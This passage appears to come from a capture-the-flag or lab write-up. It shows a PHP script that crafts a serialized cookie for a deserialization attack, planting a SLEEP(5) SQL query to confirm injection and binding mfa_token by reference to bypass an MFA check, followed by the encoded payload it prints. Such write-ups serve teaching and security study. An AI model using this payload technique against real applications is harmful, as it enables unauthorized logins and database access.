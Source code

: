 I've added a `SLEEP(5)` so that we would be able to observe a delay to ascertain that our query is being executed.

## Payload creation

To put it all together, I used the following script to create the cookie we need.

```php
$ cat cereal.php
<?php
class SQL
{
    protected $query;
    
    function __construct()
    {
        $this->query = "SELECT ? as email,? as password,SLEEP(5)";
    }
}

class User
{
    public $email;
    public $password;

    protected $sql;

    function __construct($email, $password)
    {
        $this->email = $email;
        $this->password = $password;
        $this->sql = new SQL();
    }
}

class Login
{
    public $user;
    public $mfa_token;

    protected $_correctValue;

    function __construct($user, $mfa_token)
    {
        $this->user = $user;
        $this->mfa_token = &$this->_correctValue;
    }
}

$loginAttempt = new Login(new User("admin@admin.com", "password"), -1);
$output = urlencode(base64_encode(serialize($loginAttempt)));
var_dump($output);
?>


$ php cereal.php
string(326) "Tzo1OiJMb2dpbiI6Mzp7czo0OiJ1c2VyIjtPOjQ6IlVzZXIiOjM6e3M6NToiZW1haWwiO3M6MTU6ImFkbWluQGFkbWluLmNvbSI7czo4OiJwYXNzd29yZCI7czo4OiJwYXNzd29yZCI7czo2OiIAKgBzcWwiO086MzoiU1FMIjoxOntzOjg6IgAqAHF1ZXJ5IjtzOjQwOiJTRUxFQ1QgPyBhcyBlbWFpbCw%2FIGFzIHBhc3N3b3JkLFNMRUVQKDUpIjt9fXM6OToibWZhX3Rva2VuIjtOO3M6MTY6IgAqAF9jb3JyZWN0VmFsdWUiO1I6Nzt9"
```
